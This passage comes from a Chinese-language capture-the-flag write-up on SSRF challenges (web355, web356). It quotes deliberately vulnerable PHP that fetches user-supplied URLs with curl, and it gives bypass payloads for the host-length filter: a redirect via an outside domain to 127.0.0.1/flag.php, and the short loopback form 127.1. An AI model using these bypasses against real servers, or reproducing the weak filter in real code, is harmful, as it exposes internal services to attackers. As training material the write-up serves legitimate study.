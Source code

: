 这个题有点怪，参考了其他师傅的wp，思路大概是在自己的vps上做个302跳转到127.0.0.1/flag.php上，这个payload是羽师傅还是Y4师傅的了记不清了，总之谢谢师傅们提供的payload

`payload：url=http://sudo.cc/flag.php`

## web355

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=5)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

限制域名长度不超过5，可以用127.*（0除外）

`payload：url=http://127.1/flag.php`

## web356

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=3)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```
